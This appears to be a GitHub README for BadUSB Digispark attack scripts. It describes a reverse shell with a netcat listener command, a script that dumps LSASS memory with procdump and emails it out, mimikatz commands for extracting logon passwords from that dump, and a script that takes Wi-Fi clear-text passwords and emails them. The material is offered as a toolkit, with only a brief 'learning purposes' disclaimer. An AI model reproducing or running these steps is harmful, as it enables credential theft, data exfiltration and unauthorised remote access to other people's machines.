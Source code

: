 # BadUSB-DigiSpark Keyboard #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host. ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.


# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

### Only use this for learning purposes. ###
